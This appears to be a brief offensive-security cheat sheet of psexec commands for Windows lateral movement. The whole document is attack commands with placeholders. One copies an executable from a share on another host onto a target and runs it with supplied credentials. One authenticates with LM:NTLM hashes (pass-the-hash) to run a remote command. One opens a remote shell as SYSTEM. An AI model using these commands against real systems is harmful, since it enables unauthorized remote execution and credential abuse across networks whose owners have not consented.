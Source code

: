 # psexec: execute file hostes on remote system with specified credentials  
psexec /accepteula \\<targetIP> -u domain\user -p password -c -f \\<smbIP>\share\file.exe  
  
# psexec: run remote command with specified Hash  
psexec /accepteula \\<ip> -u Domain\user -p <LM>:<NTLM> cmd.exe /c dir c:\Progra~1  
  
# pscexec: run remote command as system  
psexec /accepteula \\<ip> -s cmd.exe